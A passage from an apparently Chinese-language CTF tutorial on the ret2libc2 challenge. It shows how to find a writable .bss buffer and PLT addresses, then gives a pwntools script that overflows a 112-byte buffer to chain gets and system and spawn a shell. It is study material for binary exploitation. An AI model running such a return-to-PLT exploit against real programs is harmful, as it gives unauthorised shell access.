 3. 寻找`"/bin/sh"`编写位置

如果我们要写入`"/bin/sh"`，就需要指定一个位置，对于一般的程序，可以写入的位置有`DATA`和`STACK`，而因为`ASLR`的保护，一般不写入栈中，因此这道题中，我们需要在数据段寻找可以写入的位置

> <img src="./img/83.png">

在`.bss`节中，我们可以发现一个缓冲区`buf2`，长度100字节，正好可以用于写入`"/bin/sh"`

4. 查看`plt`表并记录地址

> <img src="./img/84.png">

5. 编写攻击脚本

已知溢出长度为112字节，第一次返回地址为`gets@plt`，紧跟的是执行`gets()`后的返回地址`system@plt`，然后是`gets()`的参数，也就是`buf2`的地址，最后是`system()`的参数，同样是`buf2`的地址

```py
from pwn import *

gets_plt = 0x8048460
bss = 0x0804A080
system_plt = 0x8048490
bin_sh = b'/bin/sh\x00'
payload = flat([b'a' * 112, gets_plt, system_plt, bss, bss])

io = process('./ret2libc2')
io.sendline(payload)
io.sendline(bin_sh)
io.interactive()
```

*注：这里的`"/bin/sh"`后面的`\x00`是截断符，防止末尾的换行符`\n`写入*

执行脚本，成功`getshell`
